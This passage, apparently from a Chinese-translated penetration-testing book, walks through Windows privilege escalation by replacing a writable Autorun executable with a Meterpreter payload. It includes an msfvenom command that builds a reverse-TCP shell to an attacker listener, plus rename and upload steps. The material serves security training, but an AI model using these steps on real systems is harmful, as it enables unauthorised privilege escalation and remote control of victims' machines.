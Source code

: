     **RW** 表示组具有读写权限，因此可以更改程序目录的内容。

    ![图 9.4 – accesschk Autorun 程序](img/B17389_09_004.jpg)

    图 9.4 – accesschk Autorun 程序

    如前面的截图所示，我们识别了**program.exe**可执行文件及其权限。在这种情况下，该可执行文件具有**NT AUTHORITY \SYSTEM**访问权限。我们可以利用这个程序通过替换可执行文件为 Meterpreter shell 可执行文件来提升我们的权限，当管理员登录时，Meterpreter shell 会自动执行，从而为我们提供一个提升的 Meterpreter 会话。

    下一步将涉及生成反向 shell 可执行文件，并将其上传到目标系统。

    注

    这种权限提升技术要求管理员登录系统，才能执行 Autorun 程序。

1.  我们可以使用**msfvenom**生成 Meterpreter 有效载荷并将其保存为可执行文件。这可以通过在 Kali 中运行以下命令来完成：

    **msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<LISTENER-IP> LPORT=<PORT> -f exe > /home/kali/Desktop/program.exe**

    注

    反向 shell 有效载荷应与我们试图利用的程序同名，并应上传到我们之前识别的、并在此处标明的相应服务路径。

1.  生成有效载荷后，我们可以将其上传到目标系统的 Autorun 应用程序路径，该路径如下：

    C:\Program Files\Autorun Program\

1.  在上传 Meterpreter 有效载荷之前，我们需要重命名原始的二进制文件。然而，建议先备份原始二进制文件，以防万一过程未按预期执行。可以通过在 Meterpreter 会话中运行以下命令来重命名原始可执行文件：

    **mv program.exe program_backup.exe**

1.  现在，我们可以通过在 Meterpreter 会话中运行以下命令，将 Meterpreter 可执行文件上传到目标系统的 Autorun 程序目录：

    **upload /home/kali/Desktop/program.exe**

    如果你使用的是标准命令行 shell，你可以使用**certutil**工具将二进制文件传输到目标系统。

    如以下截图所示，这将把 Meterpreter 可执行文件上传到**Autorun Program**目录：

    ![图 9.5 – 上传自定义 Autorun 程序](img/B17389_09_005.jpg)
